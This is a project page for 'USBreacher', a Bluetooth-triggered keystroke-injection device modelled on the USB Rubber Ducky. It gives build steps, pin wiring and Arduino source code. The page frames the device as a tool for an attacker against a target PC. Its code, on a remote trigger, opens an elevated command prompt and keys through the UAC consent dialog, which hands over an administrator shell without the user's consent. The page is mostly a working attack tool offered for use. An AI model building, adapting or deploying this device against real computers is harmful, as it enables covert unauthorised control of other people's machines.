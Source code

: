 ## USBreacher
USBreacher is an amateur open-source project developed by TITAN Security in 2021, inspired by the well-known USB Rubber Ducky.  
Rubber Ducky is a tool shaped like a USB flash drive that can send commands to the connected computer by emulating an input device (mouse, keyboard, gamepad, etc.).

The idea originated from the need to overcome some limitations of this product:  
▶ It can store only one script.  
▶ The script is executed immediately.  
▶ Remote commands cannot be issued.

USBreacher, on the other hand, retains all the functionalities of the original product while introducing some advantages.  
It features a Bluetooth/WiFi interface, allowing it to communicate with a remote device to issue commands remotely.  
This modification enables the attacker to choose when and which script to execute and to directly control the device (usually a keyboard) as needed.

**Technical specifications**
USBreacher is a free, open-source project, which means it can be built as desired. However, it was originally designed with the following technical specifications:
▶ Arduino Pro Micro development board with an ATmega 32U4 processor
▶ HC-05 wireless module
▶ Custom 3D-printed case

The device can also be replicated with components different from those specified above, as long as they are suitable for the purpose. Not all development boards can emulate an input device, and not all wireless modules support Bluetooth/WiFi technologies.

**Assembly**  
To replicate the project, it is recommended to follow this guide:  
▶ Gather the necessary components
▶ Connect the following pins via soldering, following this scheme:  
VCC → VCC  
GND → GND  
8 → RXD  
9 → TXD  
▶ Place the boards into the enclosure
▶ Program the development board according to your needs

The development board can be programmed using the official Arduino IDE.  
To configure the Bluetooth module, this video tutorial is helpful.

An example of the code can be downloaded below.

**Sofware**
```c++
#include <Keyboard.h>
#include <SoftwareSerial.h>

char ch = 0;
char deb = 0;
////////////////////////////////////////////////////////////////////////////////////////////
void del(int time){
  delay(time);
}
///////////////////////////////////////////////////////////////////////////////////////////
void p(int key)
{
  Keyboard.press(key);
  del(10);
  Keyboard.release(key);
}
SoftwareSerial SSerial(9,8);
//////////////////////////////////////////////////////////////////////////////////////////
void setup() {
  Serial.begin(9600);
  //while(!Serial) {}

  SSerial.begin(9600);
  Serial.println("Board initialized");
}
///////////////////////////////////////////////////////////////////////////////////////////
void cmd(){
  Keyboard.begin();
  del(500);
  p(KEY_LEFT_GUI);
  p('r');
  del(500);
  Keyboard.print("cmd");
  del(100);
  Keyboard.press(KEY_LEFT_CTRL);
  Keyboard.press(KEY_LEFT_SHIFT);
  Keyboard.press(KEY_RETURN);
  del(50);
  Keyboard.releaseAll();
  del(1000);
  p(KEY_LEFT_ARROW);
  del(50);
  p(KEY_RETURN);
  del(500);
  Keyboard.releaseAll();
}
/////////////////////////////////////////////////////////////////////////////////////////////////
void loop() {
  if (SSerial.available()){
    ch = SSerial.read();
  if (ch == 'd'){
  cmd();
  }



}}
```

**Usage**  
To use the device, simply connect it to the target PC and control it via a software application, which is also available for Android. The software settings should be calibrated based on the code loaded onto the board.
